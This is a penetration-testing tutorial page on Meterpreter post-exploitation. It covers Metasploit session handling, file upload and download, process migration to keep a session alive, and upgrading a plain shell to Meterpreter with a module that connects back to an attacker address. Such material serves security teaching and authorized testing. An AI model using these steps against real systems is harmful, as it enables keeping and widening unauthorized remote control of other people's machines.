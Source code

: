 # Meterpreter shell for post-exploitation

By now you probably has some kind of shell to the target. If it is not a meterpreter shell you should probably try to turn the current shell into a meterpreter shell, since it gives you a lot of tools available really easy.

So just create a meterpreter-shell from msfvenom or something like that. Maybe a php-shell. Or whatever you have access to. Then you just fire that script and get your meterpreter shell. Check out the chapter Exploiting/Msfvenom for more about creating payloads.

## Basics

List all commands

```
help
```

Get help about a specific command

```
help upload
```

### Sessions

So first some basics. You can put the shell into a background job with the command `background`. This might be useful if you have several shells going at the same time. Or if you want to move to a specific directory to upload or download some files.

List background sessions

```
background -l
```

Connect back to a background session

```
background -i 1
```

Upload and download files.

```
upload
download
```

## Scripts

### Migrate

A really common and useful script that is build into metasploit is the migrate script. If you get the shell through some kind of exploits that crashes a program the user might shut down that program and it will close your session. So you need to migrate your session to another process. You can do that with the `migrate` script.

First run this command to output all processes

```
ps
```

Now you choose one and run

```
run migrate -p 1327
```

Where the `-p` is the PID of the process.

## Post modules

There are tons of modules specifically created for post-exploitation. They can be found with

```
use post/
```

### Upgrade a normal shell to metepreter

There is a point in doing stuff through metasploit. For example, if you find a exploit that does not have meterpreter available as a payload you can just start a normal shell and then upgrade it. To do that you do the following:

First you generate a shell through metasploit, either through a specific exploit or through a msfvenom-shell that you upload. Now that you have a normal shell it is time to upgrade it to a meterpreter shell.

First we have to leave the shell but without killing it. So we do

```
Ctr-z
Background session 2? [y/N]  y
```

Now we have that shell running in the background, and you can see it with

```
show sessions
#or
sessions -l
```

And you can connect to it again with

```
sessions -i 1
```

Or whatever the number of the session is.

So now we have the shell running in the background. It is time to upgrade

```
use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.102
set session 1
exploit
```

Now metasploit will create a new session with meterpeter that will be available to you.

